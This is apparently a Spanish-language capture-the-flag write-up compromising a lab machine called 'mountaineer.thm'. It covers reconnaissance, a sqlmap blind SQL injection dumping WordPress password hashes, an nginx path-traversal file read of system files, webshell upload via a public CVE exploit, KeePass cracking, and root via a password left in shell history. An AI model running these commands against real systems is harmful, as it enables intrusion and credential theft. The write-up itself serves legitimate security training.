

## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
> nmap -p- -sVC --min-rate 5000 mountaineer.thm -Pn -n -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:09:80:28:d4:ec:f1:f9:bc:a3:f7:bb:cc:0f:68:90 (ECDSA)
|_  256 82:5a:2d:0c:77:83:7c:ea:ae:49:37:db:03:5a:03:08 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

*Nota: Por comodidad, asocié el dominio mountainner.thm a la IP en el fichero /etc/hosts*

Accedemos al sitio web por el puerto 80, encontramos la página por defecto de Nginx:


Lanzamos la herramienta **dirsearch** y rápidamente enumeramos el directorio /wordpress/
```
> dirsearch -u http://mountaineer.thm -x 404

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Documents/Mountaineer/reports/http_mountaineer.thm/_24-10-19_17-18-53.txt

Target: http://mountaineer.thm/

[17:18:53] Starting: 
[17:19:43] 200 -    6KB - /wordpress/wp-login.php                            
[17:19:43] 200 -   60KB - /wordpress/

Task Completed
```

Accedemos a WordPress, vemos que hablan de diferentes montañas y se logra enumerar varios usuarios con nombres relacionados a esas montañas:


El panel de administración de WordPress también está expuesto:


Lanzamos la herramienta **wpscan** y enumeramos los siguientes plugins vulnerables:
```
 [!] 17 vulnerabilities identified:
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Authenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 5.16.5
 |      - https://wpscan.com/vulnerability/0f9ba284-5d7e-4092-8344-c68316b0146f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24147
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Unauthenticated Events Export
 |      - https://wpscan.com/vulnerability/c7b1ebd6-3050-4725-9c87-0ea525f8fecc
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24146
 | [!] Title: Modern Events Calendar Lite < 5.16.5 - Authenticated Arbitrary File Upload leading to RCE
 |      - https://wpscan.com/vulnerability/f42cc26b-9aab-4824-8168-b5b8571d1610
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24145
 | [!] Title: Modern Events Calendar Lite < 5.16.6 - Authenticated SQL Injection
 |     Fixed in: 5.16.6
 |      - https://wpscan.com/vulnerability/26819680-22a8-4348-b63d-dc52c0d50ed0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24149
 | [!] Title: Modern Events Calendar Lite < 5.22.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 5.22.2
 |      - https://wpscan.com/vulnerability/300ba418-63ed-4c03-9031-263742ed522e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24687
 | [!] Title: Modern Events Calendar Lite < 5.22.3 - Authenticated Stored Cross Site Scripting
 |     Fixed in: 5.22.3
 |      - https://wpscan.com/vulnerability/576cc93d-1499-452b-97dd-80f69002e2a0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24716
 | [!] Title: Modern Events Calendar < 6.1.5 - Unauthenticated Blind SQL Injection
 |     Fixed in: 6.1.5
 |      - https://wpscan.com/vulnerability/09871847-1d6a-4dfe-8a8c-f2f53ff87445
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24946
 | [!] Title: Modern Events Calendar Lite < 6.1.5 - Reflected Cross-Site Scripting
 |      - https://wpscan.com/vulnerability/82233588-6033-462d-b886-a8ef5ee9adb0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24925
 | [!] Title: Modern Events Calendar Lite < 6.2.0 - Subscriber+ Category Add Leading to Stored XSS
 |     Fixed in: 6.2.0
 |      - https://wpscan.com/vulnerability/19c2f456-a41e-4755-912d-13683719bae6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-25046
 | [!] Title: Modern Events Calendar Lite < 6.4.0 - Contributor+ Stored Cross Site Scripting
 |     Fixed in: 6.4.0
 |      - https://wpscan.com/vulnerability/0eb40cd5-838e-4b53-994d-22cf7c8a6c50
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0364
 | [!] Title: Modern Events Calendar Lite < 6.5.2 - Admin+ Stored Cross-Site Scripting
 |     Fixed in: 6.5.2
 |      - https://wpscan.com/vulnerability/ef2843d0-f84d-4093-a08b-342ed0848914
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27848
 | [!] Title: Modern Events Calendar Lite < 6.3.0 - Authenticated Stored Cross-Site Scripting
 |     Fixed in: 6.3.0
 |      - https://wpscan.com/vulnerability/a614adad-6b3c-4566-b615-9dfcbdbed514
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-30533
 |      - https://jvn.jp/en/jp/JVN04155116/
 | [!] Title: Modern Events Calendar Lite < 6.4.7 - Reflected Cross-Site Scripting
 |     Fixed in: 6.4.7
 |     Reference: https://wpscan.com/vulnerability/4ecf4232-0a0f-4d20-981d-fd0f697d96a9
 | [!] Title: Modern Events Calendar lite < 6.5.2 - Admin+ Stored XSS
 |      - https://wpscan.com/vulnerability/c7feceef-28f1-4cac-b124-4b95e3f17b07
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1400
 | [!] Title: Modern Events Calendar lite < 7.1.0 - Authenticated (Admin+) Stored Cross-Site Scripting
 |     Fixed in: 7.1.0
 |      - https://wpscan.com/vulnerability/0b4286db-6c6f-4426-9506-314bf78e4905
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4021
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/f213fb42-5bab-4017-80ea-ce6543031af2
 | [!] Title: Modern Events Calendar <= 7.11.0 - Authenticated (Subscriber+) Arbitrary File Upload
 |     Fixed in: 7.12.0
 |      - https://wpscan.com/vulnerability/2e33db28-12b1-43ea-845c-0f71e33ab8ae
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-5441
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/0c007090-9d9b-4ee7-8f77-91abd4373051
 | [!] Title: Modern Events Calendar <= 7.12.1 - Subscriber+ Server Side Request Forgery
 |     Fixed in: 7.13.0
 |      - https://wpscan.com/vulnerability/f43e294c-4fc2-4d9c-82b3-6551690f1b82
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-6522
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/00bf8f2f-6ab4-4430-800b-5b97abe7589e
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://mountaineer.thm/wordpress/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'
```

También logramos enumerar usuarios potenciales y registrados en el CMS:


Entre los detectados y visto que no tenemos credenciales, solo nos queda la explotación de *Inyección SQL sin autenticación*:
- [https://wpscan.com/vulnerability/09871847-1d6a-4dfe-8a8c-f2f53ff87445/](https://wpscan.com/vulnerability/09871847-1d6a-4dfe-8a8c-f2f53ff87445/)

Hacemos la prueba de concepto que explican en el anterior enlace y verificamos que el sitio es vulnerable:


## Explotación
Tras la anterior prueba de concepto utilizamos la herramienta **SQLMap** y logramos enumerar las diferentes bases de datos:
```
> sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=1" -p "time" --dbs --random-agent --batch --dbms=mysql
```


Como la inyección es ciega y basada en tiempo, logramos "*ir al turrón*" extrayendo las credenciales de los diferentes usuarios de WordPress:
```
> sqlmap -u "http://mountaineer.thm/wordpress/wp-admin/admin-ajax.php?action=mec_load_single_page&time=1" -p "time" --dbs --random-agent --batch --dbms=mysql -D wordpress -T wp_users -C user_login,user_pass --dump

Database: wordpress
Table: wp_users
[5 entries]
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| MontBlanc  | $P$B*************** |
| ChoOyu     | $P$B*************** |
| K2         | $P$B**************** |
| admin      | $P$BV*************** |
| Everest    | $P$B*************** |
+------------+------------------------------------+
```

Por desgracia, no conseguimos crackear ninguna de las credenciales, y aquí empieza el tormento :D.

Tras varias horas buscando el punto de entrada, del cual también me generé una infinidad de diccionarios personalizados para intentar romper los hashes, *0day* mostró una pista (Thank guy!):


Recordemos que **nmap** nos sacó un *nginx 1.18.0*, esta versión cuenta con varias vulnerabilidades, pero revisando las que se mencionaba en [**Hacktricks**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx), solo había que ir probando las que tuviesen sentido su explotación y/o fuese compatible con la versión.

Finalmente, encontramos "*merge_slashes set to off*", esta vulnerabilidad nos permite explotar un LFI (Local File Inclusion), y nos viene que ni pintado :D

Link directo al artículo compartido en HackTricks:
- [https://medium.com/appsflyerengineering/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d](https://medium.com/appsflyerengineering/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)

Lanzamos **dirsearch** para intentar enumerar directorio y ficheros con los que probar esta maravilla, log*ramos identificar el directorio "*/images/":
```
> dirsearch -u http://mountaineer.thm/wordpress/ -x 404 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -e "old,bak,txt" -f -t 40

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                           
 (_||| _) (/_(_|| (_| )                                                                                                                                                                    
                                                                                                                                                                                           
Extensions: old, bak, txt | HTTP method: GET | Threads: 40 | Wordlist size: 210543

Output File: /home/kali/Documents/Mountaineer/recon/reports/http_mountaineer.thm/_wordpress__24-10-19_20-36-29.txt

Target: http://mountaineer.thm/

[20:36:29] Starting: wordpress/                                                                                                                                                            
[20:36:30] 403 -  564B  - /wordpress/images/                                
[20:36:30] 301 -  178B  - /wordpress/images  ->  http://mountaineer.thm/wordpress/images/
[20:36:30] 301 -  178B  - /wordpress/wp-admin  ->  http://mountaineer.thm/wordpress/wp-admin/
[20:36:30] 301 -  178B  - /wordpress/wp-includes  ->  http://mountaineer.thm/wordpress/wp-includes/
[20:36:30] 302 -    0B  - /wordpress/wp-admin/  ->  http://mountaineer.thm/wordpress/wp-login.php?redirect_to=http%3A%2F%2Fmountaineer.thm%2Fwordpress%2Fwp-admin%2F&reauth=1
[20:36:30] 403 -  564B  - /wordpress/wp-includes/                           
[20:36:31] 301 -  178B  - /wordpress/wp-content  ->  http://mountaineer.thm/wordpress/wp-content/
[20:36:31] 200 -    0B  - /wordpress/wp-content/                            
[20:36:39] 301 -    0B  - /wordpress/.  ->  http://mountaineer.thm/wordpress/
[20:36:44] 200 -   19KB - /wordpress/license.txt 
```

Hacemos una prueba de concepto y vemos que funciona!


Intentamos reutilizar las credenciales de la base de datos encontradas en el fichero de configuración *wp-config.php*, pero no podemos reutilizarlas sobre ningún usuario:
```
/ ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', '**************' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

Lanzamos **wfuzz** con un diccionario de ficheros relevantes Linux, logramos enumerar varios de ellos:
```
> wfuzz -c --hl 7 --hc 404 -w files/file_inclusion_linux.txt http://mountaineer.thm/wordpress/images..FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mountaineer.thm/wordpress/images..FUZZ
Total requests: 2299

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000598:   200        47 L     66 W       2499 Ch     "/./././././././././././etc/passwd"                                                                                       
000000716:   200        2 L      9 W        51 Ch       "/etc/aliases"                                                                                                            
000000714:   200        88 L     467 W      3028 Ch     "/etc/adduser.conf"                                                                                                       
000000703:   200        280 L    947 W      9216 Ch     "/boot/grub/grub.cfg"                                                                                                     
000000767:   200        42 L     275 W      2437 Ch     "/etc/apt/sources.list"                                                                                                   
000000806:   200        54 L     207 W      1735 Ch     "/etc/dhcp/dhclient.conf"                                                                                                 
000000805:   200        20 L     99 W       604 Ch      "/etc/deluser.conf"                                                                                                       
000000801:   200        33 L     166 W      1230 Ch     "/etc/default/grub"                                                                                                       
000000799:   200        83 L     485 W      2969 Ch     "/etc/debconf.conf"                                                                                                       
000000800:   200        1 L      1 W        13 Ch       "/etc/debian_version"                                                                                                     
000000791:   200        1 L      8 W        54 Ch       "/etc/crypttab"                                                                                                           
000000790:   200        23 L     206 W      1136 Ch     "/etc/crontab"                                                                                                            
000000779:   200        148 L    211 W      5888 Ch     "/etc/ca-certificates.conf"                                                                                               
000000771:   200        71 L     329 W      2319 Ch     "/etc/bash.bashrc"                                                                                                        
000000817:   200        17 L     116 W      866 Ch      "/etc/fstab"                                                                                                              
000000831:   200        3 L      18 W       92 Ch       "/etc/host.conf"                                                                                                          
000000830:   200        125 L    723 W      4436 Ch     "/etc/hdparm.conf"                                                                                                        
000000832:   200        1 L      1 W        12 Ch       "/etc/hostname"                                                                                                           
000000827:   200        75 L     75 W       1060 Ch     "/etc/group-"                                                                                                             
000000824:   200        17 L     124 W      694 Ch      "/etc/fuse.conf"                                                                                                          
000000825:   200        74 L     74 W       1050 Ch     "/etc/group"                                                                                                              
000000901:   200        17 L     111 W      711 Ch      "/etc/hosts.deny"                                                                                                         
000000900:   200        10 L     57 W       411 Ch      "/etc/hosts.allow"                                                                                                        
000000899:   200        9 L      25 W       222 Ch      "/etc/hosts"                                                                                                              
000000951:   200        17 L     40 W       334 Ch      "/etc/ldap/ldap.conf"                                                                                                     
000000945:   200        2 L      5 W        26 Ch       "/etc/issue"                                                                                                              
000000978:   200        5 L      36 W       195 Ch      "/etc/modules"                                                                                                            
000000971:   200        132 L    719 W      5217 Ch     "/etc/manpath.config"                                                                                                     
000000964:   200        4 L      6 W        104 Ch      "/etc/lsb-release"                                                                                                        
000000956:   200        27 L     101 W      592 Ch      "/etc/logrotate.conf"                                                                                                     
000000955:   200        346 L    1788 W     10734 Ch    "/etc/login.defs"                                                                                                         
000000985:   200        0 L      0 W        0 Ch        "/etc/mtab"                                                                                                               
000000999:   200        19 L     103 W      767 Ch      "/etc/netconfig"                                                                                                          
000000950:   200        2 L      2 W        34 Ch       "/etc/ld.so.conf"                                                                                                         
000000946:   200        1 L      3 W        19 Ch       "/etc/issue.net"                                                                                                          
000001018:   200        48 L     67 W       2532 Ch     "/etc/passwd-"                                                                                                            
000001014:   200        15 L     59 W       552 Ch      "/etc/pam.conf"                                                                                                           
000001016:   200        47 L     66 W       2499 Ch     "/etc/passwd"                                                                                                             
000001012:   200        12 L     17 W       386 Ch      "/etc/os-release"                                                                                                         
000001008:   200        20 L     63 W       510 Ch      "/etc/nsswitch.conf"                                                                                                      
000001004:   200        85 L     170 W      1457 Ch     "/etc/nginx/nginx.conf"                                                                                                   
000001001:   200        2 L      12 W       91 Ch       "/etc/networks"                                                                                                           
000001000:   200        3 L      12 W       69 Ch       "/etc/network/interfaces"                                                                                                 
000000997:   200        21 L     104 W      682 Ch      "/etc/mysql/my.cnf"                                                                                                       
000001005:   200        97 L     377 W      2699 Ch     "/etc/nginx/sites-available/default"                                                                                      
000001097:   200        23 L     142 W      945 Ch      "/etc/resolv.conf"                                                                                                        
000001071:   200        27 L     97 W       582 Ch      "/etc/profile"                                                                                                            
000001124:   200        11 L     70 W       419 Ch      "/etc/security/sepermit.conf"                                                                                             
000001121:   200        73 L     499 W      2971 Ch     "/etc/security/pam_env.conf"                                                                                              
000001119:   200        31 L     247 W      1637 Ch     "/etc/security/namespace.conf"                                                                                            
000001118:   200        56 L     348 W      2161 Ch     "/etc/security/limits.conf"                                                                                               
000001125:   200        65 L     412 W      2179 Ch     "/etc/security/time.conf"                                                                                                 
000001108:   200        122 L    746 W      4564 Ch     "/etc/security/access.conf"                                                                                               
000001114:   200        106 L    663 W      3635 Ch     "/etc/security/group.conf"                                                                                                
000001099:   200        40 L     117 W      887 Ch      "/etc/rpc"                                                                                                                
000001164:   200        6 L      17 W       158 Ch      "/etc/sysctl.d/10-network-security.conf"                                                                                  
000001163:   200        3 L      14 W       77 Ch       "/etc/sysctl.d/10-console-messages.conf"                                                                                  
000001162:   200        68 L     304 W      2355 Ch     "/etc/sysctl.conf"                                                                                                        
000001153:   200        126 L    393 W      3302 Ch     "/etc/ssh/sshd_config"                                                                                                    
000001148:   200        53 L     220 W      1650 Ch     "/etc/ssh/ssh_config"                                                                                                     
000001150:   200        1 L      3 W        602 Ch      "/etc/ssh/ssh_host_dsa_key.pub"                                                                                           
000001171:   200        1 L      1 W        8 Ch        "/etc/timezone"                                                                                                           
000001334:   200        0 L      0 W        0 Ch        "/proc/self/environ"                                                                                                      
000001321:   200        0 L      0 W        0 Ch        "/proc/net/dev"                                                                                                           
000001328:   200        0 L      0 W        0 Ch        "/proc/self/cmdline"                                                                                                      
000001325:   200        0 L      0 W        0 Ch        "/proc/net/udp"                                                                                                           
000001324:   200        0 L      0 W        0 Ch        "/proc/net/tcp"                                                                                                           
000001323:   200        0 L      0 W        0 Ch        "/proc/net/route"                                                                                                         
000001320:   200        0 L      0 W        0 Ch        "/proc/net/arp"                                                                                                           
000001319:   200        0 L      0 W        0 Ch        "/proc/mounts"                                                                                                            
000001318:   200        0 L      0 W        0 Ch        "/proc/modules"                                                                                                           
000001326:   200        0 L      0 W        0 Ch        "/proc/partitions"                                                                                                        
000001317:   200        0 L      0 W        0 Ch        "/proc/meminfo"                                                                                                           
000001316:   200        0 L      0 W        0 Ch        "/proc/loadavg"                                                                                                           
000001315:   200        0 L      0 W        0 Ch        "/proc/ioports"                                                                                                           
000001314:   200        0 L      0 W        0 Ch        "/proc/interrupts"                                                                                                        
000001313:   200        0 L      0 W        0 Ch        "/proc/filesystems"                                                                                                       
000001312:   200        0 L      0 W        0 Ch        "/proc/devices"                                                                                                           
000001322:   200        0 L      0 W        0 Ch        "/proc/net/fib_trie"                                                                                                      
000001311:   200        0 L      0 W        0 Ch        "/proc/cpuinfo"                                                                                                           
000001310:   200        0 L      0 W        0 Ch        "/proc/cmdline"                                                                                                           
000001373:   200        772 L    18393 W    215535 Ch   "/proc/self/fd/4"                                                                                                         
000001353:   200        781 L    18609 W    217748 Ch   "/proc/self/fd/23"                                                                                                        
000001342:   200        1516 L   18246 W    215972 Ch   "/proc/self/fd/13"                                                                                                        
000001349:   200        784 L    18681 W    218485 Ch   "/proc/self/fd/2"                                                                                                         
000001395:   200        338 L    7474 W     100923 Ch   "/proc/self/fd/6"                                                                                                         
000001384:   200        16 L     2862 W     31450 Ch    "/proc/self/fd/5"                                                                                                         
000001445:   200        0 L      0 W        0 Ch        "/proc/version"                                                                                                           
000001444:   200        0 L      0 W        0 Ch        "/proc/swaps"                                                                                                             
000001443:   200        0 L      0 W        0 Ch        "/proc/stat"                                                                                                              
000001442:   200        0 L      0 W        0 Ch        "/proc/self/status"                                                                                                       
000001441:   200        0 L      0 W        0 Ch        "/proc/self/stat"                                                                                                         
000001440:   200        0 L      0 W        0 Ch        "/proc/self/net/arp"                                                                                                      
000001439:   200        0 L      0 W        0 Ch        "/proc/self/mounts"                                                                                                       
000001727:   200        5 L      28 W       1455 Ch     "/usr/share/pixmaps/debian-logo.png"                                                                                      
000001724:   200        88 L     467 W      3028 Ch     "/usr/share/adduser/adduser.conf"                                                                                         
000001848:   200        0 L      0 W        0 Ch        "/var/log/dpkg.log"                                                                                                       
000001867:   200        0 L      1 W        32448 Ch    "/var/log/faillog"                                                                                                        
000001894:   200        0 L      1 W        296088 Ch   "/var/log/lastlog"                                                                                                        
000001955:   200        2073 L   24930 W    289056 Ch   "/var/log/nginx/access.log"                                                                                               
000002034:   200        861 L    2849 W     28905 Ch    "/var/mail/www-data"                                                                                                      
000001957:   200        1286 L   30660 W    352698 Ch   "/var/log/nginx/error.log"                                                                                                
000002022:   200        17 L     66 W       26108 Ch    "/var/log/wtmp"                                                                                                           
000002046:   200        0 L      1 W        1536 Ch     "/var/run/utmp"                                                                                                           

Total time: 16.85918
Processed Requests: 2299
Filtered Requests: 2195
Requests/sec.: 136.3648
```
Tras la revisión de los diferentes ficheros, logramos enumerar un el subdominio *adminroundcubemail.mountaineer.thm*, también enumeramos el path interno donde está desplegado WordPress:


Insertamos el subdominio en nuestro fichero "*/etc/hosts*", accedemos a él desde el navegador y logramos ver el formulario de autenticación:


Probamos utilizar el usuario como contraseña, logramos acceder con las credenciales de *k2*, accedemos a sus correos y logramos enumerar una contraseña:


Reutilizamos estas credenciales con el usuario *k2* sobre WordPress y logramos acceder:


Con las credenciales en nuestro poder, podemos explotar la otra vulnerabilidad de RCE autenticado que vimos anteriormente, podemos utilizar el siguiente exploit que automatiza la subida:
- [https://github.com/dnr6419/CVE-2021-24145](https://github.com/dnr6419/CVE-2021-24145)

#### Exploit:
```
> python3 poc.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p ****************

  ______     _______     ____   ___ ____  _      ____  _  _   _ _  _  ____  
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |    |___ \| || | / | || || ___| 
| |    \ \ / /|  _| _____ __) | | | |__) | |_____ __) | || |_| | || ||___ \ 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____/ __/|__   _| |__   _|__) |
 \____|  \_/  |_____|   |_____|\___/_____|_|    |_____|  |_| |_|  |_||____/ 
                                
                * Wordpress Plugin Modern Events Calendar Lite RCE                                                        
                * @Hacker5preme
                    


[+] Authentication successfull !

[+] Shell Uploaded to: http://mountaineer.thm:80/wordpress//wp-content/uploads/shell.php
```

Conseguimos por fin una webshell!


Intentamos reutilizar la contraseña por **SSH** con todos los usuarios encontrados, pero no es posible conectar con ninguno de ellos, vamos a las diferentes carpetas de cada usuario, encontramos en el usuario *lhotse* una backup de un fichero **keepass**:


Nos enviamos una shell a nuestra kali para tener una conexión más interactiva y transferirnos el fichero:


#### Transferencia del fichero Backup.kdbx


En el home de *nanga* encontramos el siguiente mensaje:
```
www-data@mountaineer:/home/nanga$ cat ToDo.txt
cat ToDo.txt
Just a gentle reminder to myself:

Even though K2 isn't fond of presents, I can't help but want to get him something special! I'll make sure to mark it on my calendar to pick out a little surprise for him by this weekend.

After all, his birthday may be several months away, but every day with him feels like a celebration of love!!!!
www-data@mountaineer:/home/nanga$ 
```

Estaba claro que no era casualidad el mensaje de *nanga*, era una posible pista para crackear el fichero *Keepass* encontrado.

Igualmente, extraemos el hash con la contraseña cifrada del fichero *Keepass* con **john**:
```
> keepass2john Backup.kdbx > keepass.hash
                                           
> cat keepass.hash
Backup:$keepass$*2*60000*0*2b092***********************************************
```

Tras varios intentos con diferentes diccionarios y contraseñas obtenidas, seguimos buscando información.

Tras este atasco, volvemos a revisar el correo, pero esta vez la bandeja "sent", en él encontramos la fecha de nacimiento de *lhotse*, este dato nos ayuda a generar posibles contraseñas para crackear el backup de keepass con la nota encontrada anteriormente.


Con la combinación de nombre, apellidos, fecha y mascota, genero un diccionario con *hashcat* y obtenemos la contraseña:
```
> john --wordlist=../dic-hashcat.txt keepass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (Backup)     
1g 0:00:00:04 DONE (2024-10-22 19:22) 0.2375g/s 277.4p/s 277.4c/s 277.4C/s Lhotse55618..Lhotse56818
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Desbloqueamos el fichero y enumeramos las credenciales del usuario *kangchenjunga*:


Nos conectamos por **SSH** con el usuario *kangchenjunga* y leemos la flag de user:
```
> ssh kangchenjunga@mountaineer.thm
The authenticity of host 'mountaineer.thm (10.10.24.255)' can't be established.
ED25519 key fingerprint is SHA256:BMSSQvtQmkJhbHJetKeEg+DZXScCAFwjjyrMQu7SYno.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'mountaineer.thm' (ED25519) to the list of known hosts.
kangchenjunga@mountaineer.thm's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Oct 22 05:24:37 PM UTC 2024

  System load:  0.080078125        Processes:             124
  Usage of /:   19.4% of 30.34GB   Users logged in:       0
  Memory usage: 17%                IPv4 address for eth0: 10.10.24.255
  Swap usage:   0%


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Mar 18 18:03:41 2024 from 192.168.33.1
kangchenjunga@mountaineer:~$ ls -lna
total 20
drwxr-xr-x  2    0    0 4096 Mar 18  2024 .
drwxr-xr-x 11    0    0 4096 Mar 16  2024 ..
-rw-r-----  1 1006 1006  303 Mar 18  2024 .bash_history
-rw-r-----  1    0 1006   33 Mar 16  2024 local.txt
-rw-r-----  1 1006 1006  216 Mar 16  2024 mynotes.txt
kangchenjunga@mountaineer:~$ cat local.txt 
*********************
kangchenjunga@mountaineer:~$ 
```

## Escalada de privilegios
Leemos el fichero "*mynotes.txt*", nos habla sobre una contraseña que sea más difícil y que no utilice su cuenta el usuario root.
```
kangchenjunga@mountaineer:~$ cat mynotes.txt
Those my notes:

1. Tell root stop using my account ! It's annoying !
2. Travel to Mars sometime, I heard there are great mountains there !
3. Make my password even harder to crack ! I don't want anyone to hack me !
kangchenjunga@mountaineer:~$ 
```

Leemos el fichero *.bash_history* y enumeramos una contraseña del usuario root (así de sencillo :D):
```
kangchenjunga@mountaineer:~$ cat .bash_history 
ls
cd /var/www/html
nano index.html
cat /etc/passwd
ps aux
suroot
*****************************
whoami
ls -la
cd /root
ls
mkdir test
cd test
touch file1.txt
mv file1.txt ../
cd ..
rm -rf test
exit
ls
cat mynotes.txt 
ls
cat .bash_history 
cat .bash_history 
ls -la
cat .bash_history
exit
bash
exit
kangchenjunga@mountaineer:~$ 

root@mountaineer:/home/kangchenjunga# cat /root/root.txt 
**********************
root@mountaineer:/home/kangchenjunga#
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!